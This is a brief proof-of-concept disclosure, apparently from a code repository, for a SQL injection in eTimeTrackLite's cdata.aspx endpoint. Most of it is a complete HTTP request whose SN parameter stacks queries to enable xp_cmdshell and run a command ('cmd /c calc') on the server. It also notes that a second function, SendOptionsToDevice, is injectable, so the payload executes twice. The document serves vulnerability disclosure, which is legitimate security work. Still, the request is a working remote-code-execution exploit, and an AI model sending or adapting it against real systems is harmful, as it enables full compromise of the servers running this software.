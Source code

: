 Direct remote code execution using xp_cmdshell

poc:

```http
GET /cdata.aspx?SN=111';EXEC+sp_configure+'show+advanced+options',+1;RECONFIGURE;EXEC+sp_configure+'xp_cmdshell',+1;RECONFIGURE;EXEC+xp_cmdshell+'cmd+/c+calc';--+ HTTP/1.1
Host: 192.168.1.222:83
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Connection: keep-alive


```

![image-20250516114221345](eTimeTrackLite/image-20250516114221345.png)

Since cdata.SendOptionsToDevice(string, string) : void @06000302 also has SQL injection, it will be executed twice

![image-20250516114453199](eTimeTrackLite/image-20250516114453199.png)
